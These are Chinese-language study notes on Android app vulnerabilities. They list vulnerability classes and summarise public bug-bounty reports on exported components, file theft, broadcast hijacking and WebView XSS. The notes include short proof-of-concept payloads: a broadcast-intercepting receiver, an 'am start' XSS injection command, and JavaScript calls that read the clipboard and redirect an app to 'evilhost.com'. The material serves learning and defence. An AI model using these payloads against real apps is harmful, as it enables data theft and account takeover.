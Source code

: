 # 各组件漏洞积累
* 各个组件，存的漏洞类型，这些漏洞的利用可能性有多大，被利用之后分别会产生什么样的效果
* ref 
1.https://www.evernote.com/l/AnGwFD3CIlRM7b8l0pISyUy45zhHdUStPsY/
2.https://developer.android.com/reference/classes

## 源码安全漏洞
* 代码混淆漏洞
* Dex保护漏洞
* so保护漏洞
* 调试设置漏洞

## 组件安全漏洞
* 组件导出漏洞

1.
[IRCCloud Android] Theft of arbitrary files leading to token leakage
https://hackerone.com/reports/288955

IRCCloud 任意文件读取
Nov 15, 2017

漏洞细节：
Activity导出 + directory traversal
向导出组件发送特殊构造的uri(包含.../， ..%2F..%2F) ,可以覆盖任意文件
(国外应用没有热补丁这种东西，因此很难RCE，但是仍然有可能进一步利用）

利用的可能性：
IRC类型，symlink

产生的效果：
任意窃取文件

TODO: 学习 symlink 利用

修复建议：设置exported=false；需要外部调用，添加自定义signature或signatureOrSystem级别的私有权限保护；需要暴露的组件严查输入参数，避免应用出现拒绝服务。

2. [Quora Android] Possible to steal arbitrary files from mobile device
https://hackerone.com/reports/258460
August 31, 2017

漏洞细节
UploadService组件 enabled 且 exported。导致任意第三方软件都可以启用这个组件，导致可以任意文件上传。

3. Harvest 任意文件读取
https://hackerone.com/reports/161710
February 10, 2017

extra1:
使用android.accounts.AccountManager 可防止account take over

extra2:
通过symlinks进行任意文件读取是一个很有效的手段，
而且不需要root。
symlink到sdcard会有一些问题，但是symlink到 /data/data/pwntarget/目录没有问题
nice report.

4. NextCloud应用文件上传广播劫持
https://hackerone.com/reports/167481
March 24, 2017

漏洞细节
poc: 注册一个reciever:
<receiver android:exported="true" android:enabled="true" android:name=".InterceptReceiver">
    <intent-filter android:priority="999"> //这里是接受广播的优先权吧
        <action android:name="FileUploader.UPLOAD_START"/>
        <action android:name="FileUploader.UPLOAD_FINISH"/>
        <action android:name="FileUploader.UPLOADS_ADDED"/>
    </intent-filter>
</receiver>

在manifest中静态注册的receiver将先于应用本身，

5. [IRCCloud Android] Opening arbitrary URLs/XSS in SAMLAuthActivity
https://hackerone.com/reports/283058
November 3, 2017
由于activity export
这不能算是洞吧 ...
但是也有危害，因为人不能看到真实的URL，可以用来钓鱼。

6. Dolphin浏览器未正确处理url scheme
https://github.com/VerSprite/research/blob/master/advisories/VS-2017-002.md
CVE-2017-17553
Dolphin Browser for Android Insecure Intent URI Scheme Parsing Vulnerability

7. Quora 导出组件导致的XSS
xss可以偷cookie，登陆账号，本质上为可以执行任意js代码，那么，就可以访问cookie然后回传。

poc:
  am start -n com.quora.android/com.quora.android.ActionBarContentActivity -e url 'http://test/test' -e html 'XSS<script>alert(123)</script>'
  
可以加载第三方js
可以通过一些定义的js接口做一些事情，例如获取剪切板内容
QuoraAndroid.getClipboardData()
QuoraAndroid.sendMessage(
"{\"messageName\":\"switchInstance\",\"data\":{\"host\":\"evilhost.com\",\"instance_name\":\"evilhost\",\"scheme\":\"https\"}}"
);
change the server address.

extra:
https://labs.mwrinfosecurity.com/blog/webview-addjavascriptinterface-remote-code-execution/

* Activity组件漏洞
	activity绑定browserable与自定义协议
* ActivityManager漏洞


## Service组件漏洞

## Broadcast Receiver组件漏洞
* 权限管理不当
* BroadcastReceiver导出漏洞
* 动态注册广播组件暴露漏洞

## Content Provider组件漏洞
* 读写权限漏洞
* Content Provider中的SQL注入漏洞
* Provider文件目录遍历漏洞

## Intent组件漏洞
* 隐式意图调用漏洞
* 意图协议URL漏洞

## WebView组件漏洞
* Webview明文存储密码风险
* Webview远程代码执行漏洞
* Webview绕过证书校验漏洞
* WebView忽略SSL证书错误

## 数据安全漏洞
* 数据存储漏洞
* 数据加密漏洞
* 数据传输漏洞
* 日志信息漏洞

## 业务逻辑漏洞
* 权限漏洞
* 业务漏洞

# NEW I found
1. CVE-2019-5765: 1-click HackerOne account takeover on all Android devices
https://hackerone.com/reports/563870
2. [Grab Android/iOS] Insecure deeplink leads to sensitive information disclosure
https://hackerone.com/reports/401793
3.[Mail.Ru Android] Typo in permission name allows to write contacts without user knowledge
https://hackerone.com/reports/440749
4.Disclosure of all uploads to Cloudinary via hardcoded api secret in Android app
https://hackerone.com/reports/351555
5.[Zomato Android/iOS] Theft of user session
https://hackerone.com/reports/328486
6.Android - Access of some not exported content providers
https://hackerone.com/reports/272044
7.

